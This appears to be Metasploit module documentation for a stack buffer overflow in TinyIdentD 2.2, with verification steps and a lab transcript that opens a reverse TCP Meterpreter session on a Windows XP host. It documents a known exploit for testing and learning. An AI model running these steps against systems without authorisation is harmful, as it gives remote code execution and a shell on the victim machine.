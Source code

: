 ## Vulnerable Application

  This module exploits a stack based buffer overflow in TinyIdentD
  version 2.2.

  If we send a long string to the ident service we can overwrite the
  return address and execute arbitrary code. Credit to Maarten Boone.

  Download:

  * https://download.cnet.com/Tiny-IdentD/3000-2150_4-10147419.html


## Verification Steps

  1. Start `msfconsole`
  2. `use exploit/windows/misc/tiny_identd_overflow`
  3. `set RHOSTS <rhost>`
  4. `set TARGET <target>`
  5. `run`
  6. You should get a new session


## Options


## Scenarios

### TinyIdentD 2.2 on Windows XP SP0 - English (x86)

  ```
  msf > use exploit/windows/misc/tiny_identd_overflow
  msf exploit(windows/misc/tiny_identd_overflow) > show targets

  Exploit targets:

     Id  Name
     --  ----
     0   Automatic
     1   Windows 2000 Server SP4 - English
     2   Windows 2000 Pro All - English
     3   Windows 2000 Pro All - Italian
     4   Windows 2000 Pro All - French
     5   Windows XP SP0/1 - English
     6   Windows XP SP2 - English
     7   Windows XP SP2 - Italian


  msf exploit(windows/misc/tiny_identd_overflow) > set target 5
  target => 5
  msf exploit(windows/misc/tiny_identd_overflow) > set rhosts 172.16.191.140
  rhosts => 172.16.191.140
  msf exploit(windows/misc/tiny_identd_overflow) > run

  [*] Started reverse TCP handler on 172.16.191.165:4444 
  [*] 172.16.191.140:113 - Trying Windows XP SP0/1 - English using address at 0x71aa1a97 ...
  [*] Sending stage (176195 bytes) to 172.16.191.140
  [*] Meterpreter session 1 opened (172.16.191.165:4444 -> 172.16.191.140:1040) at 2020-05-23 00:00:56 -0400

  meterpreter > sysinfo 
  Computer        : WINXP
  OS              : Windows XP (5.1 Build 2600).
  Architecture    : x86
  System Language : en_US
  Domain          : WORKGROUP
  Logged On Users : 2
  Meterpreter     : x86/windows
  meterpreter > 
  ```
